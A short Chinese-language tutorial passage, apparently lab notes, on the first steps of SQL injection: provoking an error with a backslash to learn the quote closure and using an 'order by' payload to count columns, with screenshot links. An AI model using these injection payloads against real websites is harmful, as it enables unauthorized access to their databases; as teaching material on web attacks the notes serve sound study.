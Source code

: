 

基本步骤：

推断数据库语法大概是什么，让他报错，显示自己的闭合方式:

```
?id=1\
```

![image-20220114231804679](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114231804679.png)

得到闭合方式为`'`



确定列数：

```
?id=2' order by 3 --+
```

![image-20220114232558568](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114232558568.png)

![image-20220114232710941](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114232710941.png)

